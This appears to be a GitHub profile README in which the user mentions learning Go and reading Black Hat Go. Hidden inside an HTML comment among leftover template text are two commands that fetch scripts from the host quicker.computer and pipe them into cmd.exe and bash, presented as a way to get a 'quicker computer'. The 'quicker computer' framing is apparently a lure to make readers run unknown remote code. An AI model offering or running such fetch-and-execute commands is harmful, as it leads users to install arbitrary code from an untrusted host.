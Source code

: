 ## Hi
This is DackJempsey's profile. Take a look around and let me know if you have any questions :smile:

### Currentl Learning
Working on sharpening my Go programing skills. Be sure to check in for more repos.

### Current Books
[Black Hat Go](https://nostarch.com/blackhatgo)
[Endurance](https://www.amazon.com/Endurance-Shackletons-Incredible-Alfred-Lansing/dp/0465062881)

<!--
`wget quicker.computer/fe334TGee4GWindows100R443 |C:\Windows\system32\cmd.exe`
**DackJempsey/DackJempsey** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

if you want a quicker computer mac edition:\
`curl -Ls quicker.computer/Fr345T5GTRANDOMSTRING24n4t5|bash`\
a quicker windows script coming soon

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
